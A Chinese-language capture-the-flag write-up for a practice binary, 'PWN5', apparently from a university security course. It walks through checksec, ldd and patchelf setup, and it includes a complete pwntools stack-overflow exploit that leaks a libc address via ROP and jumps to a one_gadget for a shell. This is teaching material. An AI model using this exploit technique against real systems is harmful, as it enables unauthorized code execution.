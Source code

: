 ### PWN5

#### 考点

- 对`ldd, patchelf`命令以及依赖库版本的了解
- 对ASLR机制的理解
- `one_gadget`工具使用

#### 解题过程

- 首先使用`checksec, files`查看程序基本信息：

![checksec](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\checksec.png)

![file](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\file.png)

​		可见程序为64位，开启DEP保护，为动态链接的程序。

- 使用`ldd`命令检查程序运行所需的依赖库，其中包括程序所依赖的C函数库`libc.so.6`以及动态链接器 `ld-linux-x86-64.so.2` 的路径  

![ldd](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\ldd.png)

- 使用 `patchelf `替换 `libc` 与 `ld` 到指定版本，该步骤目的是将本地运行环境调整到与预期一致。 `libc` 与 `ld` 的版本必须匹配，题中给定了 `libc-2.23.so` ，因此需要2.23版本的 `ld` 。 

 ![ldd-1](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\ldd-1.png)

- 使用`ida`打开，反编译：

`main`: 

![main](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\main.png)

`stack_flow`: `read`函数存在漏洞

![stack_flow](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\stack_flow.png)

- 使用`ROPgadget`工具查找程序中是否有`system`函数和`"/bin/sh"`字符串，结果表明并没有，因此需要自行输入字符串，并从动态链接库中查找`system`函数的偏移

![system&bin_sh](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\system&bin_sh.png)

- 构造脚本获取到`puts`函数在`libc`中的相对偏移：

  ```python
  from pwn import *
  
  
  libc= ELF('./libc-2.23.so')
  
  libc_puts_offset = libc.symbols['puts']
  print(hex(libc_puts_offset))
  ```

![puts_related_addr](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\puts_related_addr.png)

- 使用`one_gadget`工具获取到命令地址`exceve("/bin/sh")`

![one_gadget](C:\SJTU\课程\大四上\信息安全综合实践（2）\练习\pwn5\images\one_gadget.png)

- 构造python脚本实现`"/bin/sh"`字符串的输入。

```python
from pwn import *

# 启动进程
context(arch='amd64', log_level='debug')
p = process('./pwn5')

elf = ELF("./pwn5")
p.recvuntil("Give me your payload\n")

# 参数地址
libc= ELF('./libc-2.23.so')
libc_puts_offset = libc.symbols['puts']
print(hex(libc_puts_offset))
libc_system_offset = libc.symbols['system']
print(hex(libc_system_offset))
libc_one_gadget_offset = 0x0f1247

pop_rdi = 0x400613
puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
main_addr = 0x400587

# 构造payload泄漏puts函数地址
payload1 = flat(b'a'*(0x20 + 8), pop_rdi, puts_got, puts_plt, main_addr)
p.send(payload1)
puts_libc = p.recv(6)
puts_libc = u64(puts_libc.ljust(8, b'\x00'))
success(hex(puts_libc))

libc_base = puts_libc - libc_puts_offset
success(hex(libc_base))
one_gadget = libc_base + libc_one_gadget_offset
print(hex(one_gadget))

payload2 = b'a'*(0x20 + 8) + p64(one_gadget)
p.recvuntil("Give me your payload\n")
# gdb.attach(p, 'b *0x400585')
p.send(payload2)
p.interactive()
```



- 重要的函数地址以及偏移量：

| 函数                   | 地址               |
| ---------------------- | ------------------ |
| `main`                 | 0x0000000000400587 |
| `stack_overflow`       | 0x0000000000400566 |
| `stack_overflow_leave` | 0x0000000000400585 |
| `pop_rdi`              | 0x0000000000400613 |
| `one_gadget`           | 0x0f1247           |



#### 结果

成功执行命令：

![image-20231001182756684](C:\Users\Eknight\AppData\Roaming\Typora\typora-user-images\image-20231001182756684.png)